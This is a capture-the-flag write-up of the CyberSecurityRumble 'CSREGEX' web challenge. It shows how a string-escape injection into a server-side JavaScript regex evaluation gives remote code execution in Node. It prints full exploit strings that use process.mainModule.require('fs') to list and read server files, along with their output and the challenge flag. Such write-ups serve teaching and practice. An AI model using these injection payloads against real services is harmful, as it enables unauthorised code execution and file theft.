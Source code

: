 original is clearly better:  
[original
writup](https://github.com/tHoMaStHeThErMoNuClEaRbOmB/ctfwriteups/blob/master/CyberSecurityRumblectf/web/CSRegex/README.md#solution)

writup here as well:  
# writup for CSREGEX challange  
description:  
```  
Stop pwning, start learning REGEX! This is such a fine way to ESCAPE the real
world...

http://chal.cybersecurityrumble.de:9876

Author: molatho|nviso

(72 solves)  
```

Table of contents  
=================

  * [how we got to the solution](#how_we_got_to_the_solution)  
  * [solution](#solution)

how we got to the solution  
=============================

we are greeted with a regex tesiting page, In the main box you can enter a
regular expression, which will be evaluated and the output will be shown in
the bottom

```  
'A regular expression (shortened as regex or regexp; also referred to as
rational expression) is a sequence of characters that define a search pattern.
Usually such patterns are used by string-searching algorithms for "find" or
"find and replace" operations on strings, or for input validation. It is a
technique developed in theoretical computer science and formal language
theory.\n\nThe concept arose in the 1950s when the American mathematician
Stephen Cole Kleene formalized the description of a regular language. The
concept came into common use with Unix text-processing utilities. Different
syntaxes for writing regular expressions have existed since the 1980s, one
being the POSIX standard and another, widely used, being the Perl
syntax.\n\nRegular expressions are used in search engines, search and replace
dialogs of word processors and text editors, in text processing utilities such
as sed and AWK and in lexical analysis. Many programming languages provide
regex capabilities either built-in or via
libraries.\n\nhttps://en.wikipedia.org/wiki/Regular_expression'.match(/<user
input regex>/gi)  
```  
this gets transmtted and evaluated on the server.  
Which makes the task pretty obvious, lets escape the .match expression and
have server side (remote) code execution

z'.match()/gi); <javascript code>;/  
- the first part `z'.match()/gi);` completes the string so it doesnt error  
- the end `;/` is to comment out the rest, `/gi`

so we have an RCE, what next?

"fetch is not defined" -- we are running on node and not a web browser

lets see what we can and cannot do:  
- we cannot call require  
- `child_process` and `fs` arent imported  
- we can use `return` to get any data back from the server

thats not much, but we found that we can infact call require by using
`process.mainModule.require`

so lets build a little script:  
we can return the contents of the current directory with the fs module  
```js  
//code:  
let files = [];  
const fs = process.mainModule.require('fs');  
fs.readdirSync(".").forEach(file => files.push(file) );  
return files;

// exploit:  
z'.match()/gi);let files = [];const fs = process.mainModule.require('fs');
fs.readdirSync(".").forEach(file =>  files.push(file) ); return files;/

// result:  
{"result":[".dockerignore","api.js","csregex","dist","dockerfile","index.js","leftover.js","node_modules","package-
lock.json","package.json","regexer.js","requests.log","simple-fs.js"]}

```

solution  
===========  
start reading the files to see if there is anything interesting in either one  
```js  
// code:  
const fs = process.mainModule.require('fs');  
const data = fs.readFileSync('api.js', 'utf8');  
return(data);/

// exploit:  
z'.match()/gi);const fs = process.mainModule.require('fs'); const data =
fs.readFileSync('dockerfile', 'utf8'); return(data);/

//results  
api.js: "var express = require('express');↵var router = express.Router();↵var
RegexEr = require('./regexer')↵↵router.get('/regex/:pattern/:flags/:input',
(req, res) => {↵    var params = {↵        pattern: req.params.pattern,↵
input: req.params.input,↵        flags: req.params.flags↵    };↵    try {↵
params.pattern = Buffer.from(req.params.pattern, 'base64').toString();↵
params.input = Buffer.from(req.params.input,
'base64').toString().replace(/\n/gm, "").trim();↵        params.flags =
Buffer.from(req.params.flags, 'base64').toString();↵
RegexEr.process(params.pattern, params.flags, params.input)↵
.then((result) => res.status(200).send({result: result}))↵
.catch((err) => res.status(400).send({ error: err.message }));↵↵    } catch
(ex) {↵        console.error(ex);↵
res.status(400).send(JSON.stringify(ex));↵    }↵↵});↵↵module.exports =
router;"  
dockerfile:"from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk
update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm
install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g ''
server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN
chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' >
/root/flaggerino_flaggeroni.toxt\nRUN chmod 640
/root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE
8080\nCMD [ \"node\", \"index.js\"]  
```

sure enought dockerfile had the flag  
```  
RUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}'  
```